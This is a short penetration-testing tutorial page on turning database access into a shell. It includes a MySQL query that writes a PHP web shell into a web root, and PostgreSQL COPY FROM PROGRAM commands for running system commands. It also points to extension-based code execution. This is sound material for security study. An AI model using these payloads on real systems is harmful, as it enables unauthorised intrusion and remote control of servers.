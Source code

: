 ```yaml
---
description: You have a connection to a database. How can you get a shell from that?
---
```


# Get a Shell From DB Connection

### Write a Web Shell

Prerequisites:

* A web server that supports PHP or ASP is installed on the same server
* The database user has write permissions in a directory from where PHP or ASP can be executed through the web server

Many databases can write files to the local system. So if possible, write a web shell to the web server.

Mysql example:

```
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'
```

### Databases Support Command Execution

Some databases support command execution, so you can just use that. Always check whether the database system supports running commands, or whether there are CVEs or methods for running shell commands for that specific DB.

Prerequisite:

* Connection to a database system that supports command execution
* May require certain privileges as the user you're connecting to

#### PostgreSQL Intended Command Execution

Prerequisites:
* Heightened privileges:
  * Database superuser
  * Or any user in the `pg_execute_server_program` group

First, the attacker needs to create a table to hold the system command's output.

```
> CREATE TABLE cmd_exec(cmd_output text);
```

Then, they can run the system command via the COPY TO/FROM PROGRAM function.

```
> COPY cmd_exec FROM PROGRAM 'id';
```

Run longer commands like this:

```
> COPY cmd_exec FROM PROGRAM 'touch /tmp/test';
```

#### PostgreSQL Command Execution Using Extensions

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions" %}

Prerequisites:
  * In **older** versions (9.x, 8.x), you must be able to **write to the `/tmp` directory**, and must be able to  **source UDF Shared Libraries** from there as well.
  * In **newer** versions (>=11, perhaps?), also requires **superadmin** privileges

Method:
* With postgres 8.x, use the [metasploit module](https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload/)
* With 9.x, you'll have to [compile the library](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions#compile-the-library)



